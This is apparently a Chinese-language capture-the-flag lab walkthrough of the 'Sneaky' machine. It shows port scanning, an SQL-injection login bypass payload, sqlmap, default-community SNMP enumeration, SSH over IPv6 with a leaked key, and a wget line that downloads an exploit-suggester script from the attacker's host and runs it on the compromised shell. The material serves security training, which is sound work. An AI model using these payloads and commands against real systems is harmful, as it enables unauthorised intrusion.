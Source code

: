 ```yaml
---
title: Sneaky(snmp默认口令泄露敏感信息)
categories:
- training
tags:
- training
---
```


## enum

```
Discovered open port 161/udp on 10.10.10.20                                    
Discovered open port 80/tcp on 10.10.10.20 

80/tcp  open   http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Under Development!
161/tcp closed snmp
```
## web

单引号报错，双单引号页面正常，说明有sql注入漏洞。
![28](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/28.PNG)

![29](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/29.PNG)

![30](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/30.PNG)

用户名admin，密码123'or'1'='1   登入页面，获得一个ssh密钥。

保存密钥为id.rsa文件。
```
chmod 400 id.rsa
ssh -i id.rsa admin@10.10.10.20
ssh -i id.rsa thrasivoulos@10.10.10.20
猜测用户名失败，Connection refused
```
### sql注入提取有效用户名

sqlmap -r sql

![31](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/31.PNG)

## snmp

[snmp&snmpwalk](https://whale3070.github.io/tools/2019/03/11/x/)
```
snmpwalk -c public -v 1 10.10.10.20
snmpwalk -Os -c public -v 1 10.10.10.20 -t 30
将延时设置为30秒

use scanner/snmp/snmp_enum
set RHOSTS 10.10.10.20

git clone https://github.com/trickster0/Enyx;cd Enyx
python enyx.py  2c  public  10.10.10.20

ssh -i id.rsa -6 thrasivoulos@dead:beef:0000:0000:0250:56ff:feb9:d82f
```
![32](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-26-07/32.PNG)

【本地执行】python -m SimpleHTTPServer 888

【获得的shell执行】cd /tmp;wget http://10.10.14.18:888/linux-exploit-suggester.sh
chmod a+x linux*;./linux* > out.txt

找到了一个suid程序，可以进行缓冲区溢出来获得root权限。这一部分不是很熟悉，等以后有时间再深入学习下吧。

## 总结
本次实验演示了snmp public/private默认口令泄露主机敏感信息的情况。

ssh禁止了ipv4连接，Connection refused，但是还有ipv6地址。这个思路一般人想不到吧。。。
第一次使用了IPv6地址进行ssh登陆。每一次主机重启，IPv6地址都会改变。

msf的snmp_enum模块可以枚举默认密码的设备的详细信息，但是对于延时很严格，网络不好很可能得不到查询结果。


